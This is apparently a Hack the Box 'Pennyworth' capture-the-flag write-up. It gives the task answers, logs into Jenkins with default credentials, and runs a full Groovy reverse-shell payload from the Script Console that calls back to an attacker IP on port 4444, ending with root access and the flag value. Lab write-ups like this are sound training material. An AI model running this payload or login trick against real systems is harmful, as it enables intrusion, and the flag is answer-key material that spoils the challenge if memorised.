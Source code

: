 # Pennyworth
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Pennyworth
* Topic: Java, CVE
* Difficulty: Very easy
* Date: 17-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the acronym CVE stand for? 
- **Common Vulnerabilities and Exposures**
2. What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? 
 - **confidentiality, integrity, availability**
3. What is the version of the service running on port 8080? 
- **Jetty 9.4.39.v20210325**
4. What version of Jenkins is running on the target? 
- **2.289.1**
5. What type of script is accepted as input on the Jenkins Script Console? 
- **groovy**
6. What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? 
- **cmd.exe**
7. What is a different command than "ip a" we could use to display our network interfaces' information on Linux? 
- **ifconfig**
8. What switch should we use with netcat for it to use UDP transport mode? 
- **-u**
9. What is the term used to describe making a target host initiate a connection back to the attacker host? 
- **reverse shell**

---
## Flag:
nmap:

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.111.154
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-16 18:07 EDT
Nmap scan report for 10.129.111.154
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/

Nmap done: 1 IP address (1 host up) scanned in 12.81 seconds
```

We have Jetty running on port 8080. Also, nmap found an entry in /robots.txt.

If we open the page, we see a login page.

![](./attachments/Pasted%20image%2020220417133302.png)

The robots.txt file is simply telling search engines not to index the site.

![](./attachments/Pasted%20image%2020220417133502.png)

We can try some default credentials. 

User:pass `root:password`

![](./attachments/Pasted%20image%2020220417141023.png)

We are in.

Looking around, we find a Script console under the Manage Jenkins tab. It interprets Groovy scripts.

All we have to do now is make a Groovy script that can execute a reverse shell on the server, meaning that the server will try to initiate a shell connection back to us.

![](./attachments/Pasted%20image%2020220417144615.png)

Searching for a payload, we find [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy) cheat sheet detailing a reverse shell for Groovy. 

```
String host="10.10.14.15";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We can add

```
Thread.start {
    // Reverse shell here
}
```

To make the reverse shell more stealthy on the target

Before we can execute the payload we need to connect we need to run a netcat listener on port 4444.

Command:

`nc -lvnp 4444`

`l`: Listening mode

`v`: Verbose mode

`p`: Specify port, in this case 4444.

`n`: No DNS. Numeric IP only.

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
```

Now we can execute the payload.

It worked, netcat received a connection from the host. We are now logged in as root.

```console
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444            
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.90.88] 44516
whoami
root
```

![](./attachments/Pasted%20image%2020220417152724.png)

Looking around:

```console
#cd /root
#ls
flag.txt
snap
#cat flag.txt
9cdfb439c7876e703e307864c9167a15
```

We got the final flag.

**Flag:** `9cdfb439c7876e703e307864c9167a15`

---
**Tags:** [[Hack The Box]]